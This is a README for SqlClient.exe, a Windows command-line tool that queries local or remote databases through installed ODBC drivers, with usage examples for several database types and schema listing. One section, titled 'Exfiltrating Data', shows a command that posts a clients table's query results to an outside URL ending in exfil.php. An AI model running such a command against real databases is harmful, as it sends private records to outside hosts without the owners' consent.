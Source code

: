 ﻿# SqlClient

## Usage
```
Usage: SqlClient.exe <options>
        Required
                -d, --driver    ODBC Driver
                -u, --username  username
                -p, --password  password
                -i, --host      the host name of the server
                -c, --catalog   The catalog or database
                -s, --sql       The sql statement to execute.

        Optional
                -f, --filter    Used with schema requests to filter by column or table.
                -o, --output    Output type: csv,json
                -e, --url       url where data will be posted
```

## Features

SqlClient uses the installed ODBC drivers on a system to query local or remote databases.  The application will attempt to detect if the selected ODBC driver is installed, if it is not found, the program will exit, otherwise, the SQL statement will be executed.

#### Architecture Notes

Windows maintains two sets of ODBC drivers, x86 and x64.  It is not possible to access an x86 ODBC driver from a x64 process and vice-versa.

### Supported Applications
- Access
- Excel
- Firebird
- MSSQL
- MySql
- Postgres

---

## Example Usage

### Access
pass in an empty string for username, password and host.  The -c switch should be the full path to the access database.
```
SqlClient.exe -d access -u "" -p "" -i "" -c "C:\path\to\folder\file.accdb" -s "select * from clients" -o json
```

### Excel
pass in an empty string for username, password and host.  The -c switch should be the full path to the excel spreadsheet.
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "select * from [clients$]" -o json
```

### Postgres
```
SqlClient.exe -d postgresql -u postgres -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### Firebird
```
SqlClient.exe -d firebird -u SYSDBA -p masterkey -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### Mysql
```
SqlClient.exe -d mysql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### MSSQL
```
SqlClient.exe -d mssql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

---
## Exfiltrating Data
It is possible to exfiltrate data using the -e switch.  This will result in an HTTP POST where the body of the post is the output of the query.
```
SqlClient.exe -d mssql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv -e http://domain.com/exfil.php
```
---

## Schema Sub-Commands

#### Get tables
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:tables" -o json
```
#### Get columns
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:columns" -o json
```
#### Filter schema using Linq .Select()
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:columns" -f "COLUMN_NAME = 'city'" -o json
```
##### Table fields
- TABLE_CAT
- TABLE_SCHEM
- TABLE_NAME
- COLUMN_NAME
- DATA_TYPE
- TYPE_NAME
- COLUMN_SIZE
- BUFFER_LENGTH
- DECIMAL_DIGITS
- NUM_PREC_RADIX
- NULLABLE
- REMARKS
- COLUMN_DEF
- SQL_DATA_TYPE
- SQL_DATETIME_SUB
- CHAR_OCTET_LENGTH
- ORDINAL_POSITION
- IS_NULLABLE
- ORDINAL

##### Column fields
- TABLE_CAT
- TABLE_SCHEM
- TABLE_NAME
- TABLE_TYPE
- REMARKS